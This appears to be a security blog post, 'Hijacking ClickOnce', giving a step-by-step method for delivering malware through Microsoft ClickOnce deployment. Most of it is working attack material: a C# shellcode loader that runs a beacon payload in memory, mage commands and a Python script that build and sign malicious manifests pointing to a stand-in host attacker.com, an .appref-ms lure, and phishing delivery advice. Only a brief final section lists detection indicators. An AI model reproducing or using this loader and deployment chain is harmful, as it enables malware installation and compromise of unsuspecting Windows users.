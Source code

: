 ```yaml
---
layout: post
title: "Hijacking ClickOnce"
date: 2025-01-22 19:43:00 +0300
categories: [ClickOnce,PROGRAMMING]
tags: 
pin: false
description: ClickOnce apps launch under the Deployment Service (dfsvc.exe), enabling attackers to proxy execution of malicious payloads through this trusted host.
toc: true
image: /assets/img/ClickOnce/clickonce.jpg
---
```


# Introduction

ClickOnce is a deployment technology that enables you to create self-updating Windows-based applications that can be installed and run with minimal user interaction. Visual Studio provides full support for publishing and updating applications deployed with ClickOnce technology if you have developed your projects with Visual Basic and Visual C#. For information about deploying Visual C++ applications, see ClickOnce Deployment for Visual C++ Applications.



---

# Hijacking ClickOnce for Malware Deployment

ClickOnce is a Microsoft deployment technology allowing near-zero-interaction app installation. Attackers can weaponize it to deploy implants via trusted Windows processes (`dfsvc.exe`).

---

## Why Use ClickOnce

* Minimal user interaction
* Trusted Microsoft dialogs
* Flexible online/offline deployment
* Easy to sign manifests
* Stealth execution via `dfsvc.exe`

---

## Attack Workflow

### 1. Build Malicious .NET Loader

Example C# loader:

```csharp
using System;
using System.Runtime.InteropServices;

class Program
{
    [DllImport("kernel32")]
    static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint size, uint allocType, uint protect);

    [DllImport("kernel32")]
    static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint stackSize, IntPtr startAddress, IntPtr param, uint flags, IntPtr threadId);

    [DllImport("msvcrt")]
    static extern IntPtr memcpy(IntPtr dest, byte[] src, uint count);

    static void Main()
    {
        byte[] sc = System.IO.File.ReadAllBytes("beacon.bin");
        IntPtr addr = VirtualAlloc(IntPtr.Zero, (uint)sc.Length, 0x3000, 0x40);
        memcpy(addr, sc, (uint)sc.Length);
        CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);
    }
}
```

Compile with:

```
csc.exe /platform:anycpu /out:evil.exe loader.cs
```

---

### 2. Create Application Manifest

```powershell
mage -New Application `
  -Processor msil `
  -ToFile evil.exe.manifest `
  -Name "EvilApp" `
  -Version 1.0.0.0 `
  -FromDirectory .
```

---

### 3. (Optional) Sign Manifest

```powershell
mage -Sign evil.exe.manifest -CertFile cert.pfx -Password pass
```

---

### 4. Create Deployment Manifest

```powershell
mage -New Deployment `
  -Processor msil `
  -Install true `
  -Publisher "EvilCorp" `
  -ProviderUrl https://attacker.com/evil.application `
  -AppManifest 1.0.0.0\evil.exe.manifest `
  -ToFile evil.application
```

---

### 5. (Optional) Sign Deployment Manifest

```powershell
mage -Sign evil.application -CertFile cert.pfx -Password pass
```

---

### 6. Append `.deploy` Extensions

Rename files:

```
evil.exe.deploy
```

Edit `.application`:

```xml
<deployment install="true" mapFileExtensions="true"/>
```

---

### 7. Example .appref-ms File

UTF-16 LE encoded content:

```
https://attacker.com/evil.application#EvilApp.application, Culture=neutral, PublicKeyToken=0000000000000000, processorArchitecture=msil
```

Double-clicking triggers install.

---

## Automation Example Script

Python to build manifests automatically:

```python
import subprocess

def build_clickonce():
    subprocess.run([
        "mage",
        "-New", "Application",
        "-Processor", "msil",
        "-ToFile", "evil.exe.manifest",
        "-Name", "EvilApp",
        "-Version", "1.0.0.0",
        "-FromDirectory", "."
    ])

    subprocess.run([
        "mage",
        "-New", "Deployment",
        "-Processor", "msil",
        "-Install", "true",
        "-Publisher", "EvilCorp",
        "-ProviderUrl", "https://attacker.com/evil.application",
        "-AppManifest", "1.0.0.0\\evil.exe.manifest",
        "-ToFile", "evil.application"
    ])

build_clickonce()
```

---

## Deployment Options

* Host `evil.application` online.
* Deliver `.appref-ms` file by phishing or shortcut.
* Zip all files for offline install.

---

## Detection Notes

* Child process: `dfsvc.exe`
* Artifacts in `%LOCALAPPDATA%\Apps\2.0\`
* `.application` and `.manifest` files
* Network to `ProviderUrl`

---

